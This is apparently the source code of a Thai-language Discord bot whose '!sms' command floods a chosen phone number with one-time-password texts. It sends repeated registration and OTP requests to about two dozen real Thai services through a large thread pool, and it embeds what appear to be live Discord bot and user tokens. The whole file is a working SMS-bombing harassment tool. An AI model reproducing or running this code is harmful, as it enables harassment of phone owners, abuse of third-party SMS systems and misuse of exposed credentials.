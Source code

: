 import discord,time
import discord
import requests
import time
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = "OTcyMDQyNDU0NjIwNTkwMDgx.G2O7bs.Z4Xw6fOCS-FaIWvCwfvgdWfqZ0QGIXDEeJQtuI"



prefix = "!"#คำสั่ง

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"
def cang01(phone):
    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})
def cang02(phone):
    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")
    
def cang03(phone):
    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": "dec"}})
   
   
def cang1(phone):
    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
    
    
def cang2(phone):
    post("https://www.carsome.co.th/website/login/sendSMS",json={"username":phone,"optType":0})
    
def cang3(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={
  "on": {
    "value": phone,
    "country": "66"
  },
  "type": "mobile"
},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"}) 


def cang4(phone):
    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": f"{phone[1:]}","password":"123456789Az"})
    
    
def cang5(phone):
    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": "+66"+phone,"password":"","client":"ecommerce"})
    
def cang6(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})

def cang7(phone):
    post("https://m.lucabet168.com/api/register-otp",json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})
    
def cang8(phone):
    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})
    
 
    
def cang9(phone):
    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
    
def cang10(phone):
    post("https://ep789bet.net/auth/send_otp", data={"phone":f"{phone}"})
    
def cang11(phone):
    post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,
        "language": "th"},headers={"accept": "application/json, text/plain, /",
	    "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})
    
    
    
    
def cang12(phone):
	post("https://discord.com/api/v9/users/@me/phone",json={
  "phone": "+66"+phone,
  "change_phone_reason": "guild_phone_required"
},headers={"authorization":"OTA4MjA2NjE4NjE1OTA2Mzg1.Ycz2Hw.TdQLC2lIwn6UQDl1xBsyJGLnjOw"})


def cang13(phone):
	post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})


def cang13(phone):
	post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})
	

def cang14(phone):
	post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})
	
def cang15(phone):
	post("https://www.wongnai.com/_api/guest.json?_v=6.056&locale=th&_a=phoneLogIn",data={"phoneno":phone,

"retrycount":"0"

    },headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang16(phone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":phone,"password":"1111a1111A","name":phone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang17(phone):
    session = Session()
    searchItem = session.get("https://www.shopat24.com/register/").text
    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)
    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})
     
     
def cang18(phone):
    session = Session()
    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text
    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})
    
    

def sck(sphone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":sphone,"password":"1111a1111A","name":sphone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang19(phone):
		post("https://vaccine.trueid.net/vacc-verify/api/getotp",json={"msisdn":phone,"function":"enroll"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
    
def cang20(phone):
	post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone,
	})

	
def cang21(phone):
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    
def cang22(phone):
	requests.get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})
	
def cang23(phone):
	 requests.get("https://www.baanandbeyond.com/registration_initiate?on%5Bcountry%5D=66&on%5Bvalue%5D="+phone+"&type=mobile")
	 
def cang24(phone):
	requests.get("https://findclone.ru/register?phone=+66"+phone)

    
    
 
    
def BBot(phone, amount):
    for i in range(amount):
       
        
        
        
        threading.submit(cang01,phone)
        threading.submit(cang02,phone)
        threading.submit(cang03,phone)
        threading.submit(cang1,phone)
        threading.submit(cang2,phone)
        threading.submit(cang3,phone)
        threading.submit(cang3,phone)
        threading.submit(cang4,phone)
        threading.submit(cang5,phone)
        threading.submit(cang6,phone)
        threading.submit(cang7,phone)
        threading.submit(cang8,phone)
        threading.submit(cang9,phone)
        threading.submit(cang10,phone)
        threading.submit(cang11,phone)
        threading.submit(cang12,phone)
        threading.submit(cang13,phone)
        threading.submit(cang14,phone)
        threading.submit(cang15,phone)
        threading.submit(cang16,phone)
        threading.submit(cang17,phone)
        threading.submit(cang18,phone)
        threading.submit(cang19,phone)
        threading.submit(cang20,phone)        
        threading.submit(cang21,phone)
        threading.submit(cang22,phone)
        threading.submit(cang23,phone)
        threading.submit(cang24,phone)
        
        
        
        
        


        
       
        
        
        
@bot.event
async def on_connect():
    time.sleep(0.001)
    print("ล็อกอินสำเร็จ")
    


    


    
    
    
@bot.command()
async def sms(ctx, phone, amount:int):
    
    if (amount < 151):
    	
      embes = discord.Embed(title="SmS", description="Bot by : PT3340",color=0xff4612)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      embes.add_field(name="จำนวน",value=amount)
      ima = "https://images-ext-2.discordapp.net/external/S5DoGqxs6x4q3ky-K89H42UEPAVjclkHJ_LvCPP9Wpk/https/media.discordapp.net/attachments/905106957822754876/915592008926638090/64b7e585d494a88c78bf65482e7efa01.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
		
    
      BBot(phone,amount)
    else:
    	await ctx.channel.send("ยิงไม่เกิน150")
    


		
		
		
		
		


	
	
    
    
    
    
@bot.command()
async def help(ctx):
	emBed = discord.Embed(title="Bot BY: PT3340",description="วิธิใช้",color=0xff4612)
	emBed.add_field(name="#_#",value="!sms [เบอร์] [จำนวน1-150]")
	
	
	await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)
